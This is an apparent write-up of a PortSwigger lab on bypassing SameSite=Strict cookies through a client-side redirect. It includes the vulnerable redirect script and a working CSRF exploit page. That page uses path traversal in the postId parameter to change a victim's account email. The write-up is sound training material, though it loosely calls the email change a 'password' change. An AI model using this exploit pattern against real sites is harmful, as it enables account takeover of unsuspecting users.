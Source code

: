 # [`SameSite=Strict` Bypass via Client-side Redirect](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect)

The target service sets a `SameSite=Strict` cookie:

```http
Set-Cookie: session=HZGZUXaEL6UHhu9sVMD3V3MCaJTIjWuW; Secure; HttpOnly; SameSite=Strict
```

But the password change endpoint requires no CSRF protection:

```http
POST /my-account/change-email HTTP/2
Host: 0acc008003baf22280cd3fa3003a00ef.web-security-academy.net
Cookie: session=HZGZUXaEL6UHhu9sVMD3V3MCaJTIjWuW
Origin: https://LAB_ID.web-security-academy.net
…

email=x%40x.x&submit=1
```

A `SameSite=Strict` cookie will only be sent if the request _originates_ from the same site that set the cookie. It won't be sent with any requests initiated by third-party websites (e.g., `exploit-server.net`.) So I need to find another way to initiate the request such that the cookie can be passed to validate the transaction.

There's a DOM-based redirect after a user posts a comment on a blog post:

![](_/psa-samesite-strict-bypass-via-client-side-redirect-20250604-1.png)

The endpoint for that confirmation page is `/post/comment/confirmation?postId=6`, and the value passed to `postId` is unsanitized. In that example it just redirects to `/post/6`.

Here is the JavaScript that performs the redirection:

```javascript
redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```

Another lucky break is that the `/my-account-change-email` endpoint access GET requests in addition to POST requests, so a simple `document.location` redirect in an exploit delivered to the victim is sufficient to change the password:

```text
<html>
  <body>
    <script>
      document.location = "https://LAB_ID.web-security-academy.net/post/comment/confirmation?postId=../../my-account/change-email?email=p@w.n%26submit=1"
    </script>
  </body>
</html>
```

Note that `submit=1` is also required for the password-change request. This is why I used `%26` instead of `&` to include the second parameter. If I hadn't, it would have been considered an additional parameter for the `/post/comment/confirmation` endpoint, and not the `/my-account/change-email` endpoint that the victim is redirected to.